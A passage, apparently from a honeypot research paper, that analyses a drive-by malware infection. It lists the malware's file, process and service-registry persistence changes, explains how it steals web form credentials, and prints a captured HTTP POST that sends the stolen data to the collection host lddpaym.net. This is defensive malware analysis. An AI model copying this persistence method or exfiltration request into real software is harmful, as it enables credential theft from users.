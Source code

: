 <td width="75" valign="bottom" bordercolor="#000000"><p>Write&nbsp; </p></td>
 <td width="247" valign="bottom" bordercolor="#000000"><p>&nbsp;</p></td>
 <td width="246" valign="bottom" bordercolor="#000000"><p>C:\\Documents    and Settings\\cseifert\\&nbsp; <br />
 Local    Settings\\Temp\\clean\_33d87.dll&nbsp; </p></td>
 </tr>
 <tr>

<td width="56" valign="bottom" bordercolor="#000000"><p>process&nbsp; </p></td>
 <td width="75" valign="bottom" bordercolor="#000000"><p>Created&nbsp; </p></td>
 <td width="247" valign="bottom" bordercolor="#000000"><p>C:\\WINDOWS\\benupd32.exe&quot;&nbsp; </p></td>
 <td width="246" valign="bottom" bordercolor="#000000"><p>C:\\WINDOWS\\system32\\regsvr32.exe&nbsp; </p></td>
 </tr>

<tr>
 <td width="56" valign="bottom" bordercolor="#000000"><p>registry&nbsp; </p></td>
 <td width="75" valign="bottom" bordercolor="#000000"><p>SetValueKey&nbsp; </p></td>
 <td width="247" valign="bottom" bordercolor="#000000"><p>C:\\WINDOWS\\explorer.exe&nbsp; </p></td>
 <td width="246" valign="bottom" bordercolor="#000000"><p>HKLM\\SYSTEM\\ControlSet001\\Services\\&nbsp; <br />

ldrsvc\\Parameters\\ServiceDll&nbsp; </p></td>
 </tr>
 </table>

Table 3 - Keith Jarrett attack – observed state changes

Once the exploit was successful, malware was downloaded and executed on the client machine. All of this, of course, happens in the background and is not noticeable by the user. Table 3 shows some of the actions taken by the exploit and malware; the malware is downloaded and then executes. Multiple executables and dll files are subsequently written and executed. Benupd32.exe writes the clean\_33d87.dll file to disk and proceeds to register and install it as a service, so it will be started automatically upon a reboot of the client machine. These log files were generated with the help of the client honeypot Capture-HPC.

What does the malware do once it takes control of your system? Sniffing the network stream reveals that during web browsing, in particular form submissions, the malware forwards the content of the form to a malicious data collection server named lddpaym.net. An example of these requests is shown in Figure 13. While we were not able to convert the binary data into clear text, we did discover some clear text data collection files on the web that match the format shown of the requests that we captured. These files contained a comprehensive list of URLs and the corresponding form data, mostly account names and passwords. The data was neatly separated per client machine, so it grouped the different account information per user. One stolen username and password is already quite dangerous. If the attacker has a collection of various credentials from the same user, for example e-mail and bank account information, it provides the attacker with a much more powerful set of information that will greatly increase the likelihood of a successful scam. For example, the attacker could first disable e-mail notifications from the user’s bank before proceeding to raid their bank account.
```
/ewDf/dBMFJAV3O2VkcWVw1ddn69QPWjtCW2fRVdMXlXLPU8cwRtHhBWXOQbBVYHRAouF
 /Fc8/DyO7ZyCkUndVp7pSV6Fm0SGRRa4kFRQgBNAyMbshKusPBloBp7PX0gBT/ydBkAOEpBVk
 WjU1JOBQdFN2K6FtXHxSXHd3xSXHxdYasmdQcTEBMSFcxRITEBMXBeF+pA HTTP/1.0
 Content-Type: multipart/form-data; boundary=swefasvqdvwxff
 Host: lddpaym.net
 Content-Length: 999
 Connection: Close
 User-Agent: MSID \[CEB2BB8F6737C1282988A8D3F1DFE91D\]|Paladin\_IT|107
 Pragma: no-cache
 --swefasvqdvwxff
 Content-Disposition: form-data; name=datafile; filename="data.str"
 Content-Type: application/octet-stream
 Q+XBMVFhG5Q00cU14KO1zhSPDm7HDrF1gGfSICO7kQJkszUFdVQ/RJWldRC1RgUPJD7Nfodu0l
 UgswJhs04Gc1VCtxV1FZhhYHAEYQQzkap1vm5/tH6CZdBXIsQT7yeitmJ1ZeKkzjDA80cTZuIWzPbK
 Pw/n2qLFMMeCs4NuV3N0E3QEFXXNoMDF1cE1x/TKZN+u/qfOtjHlo6IQA3+nwrYDhGTUJF7EoB
 Bk0RV3dK60md7ON86AR2IURuXX32cCBdPExwSEbtBQUbETt/WSOpGr3m4HftK1s3eCENNfV8Y
```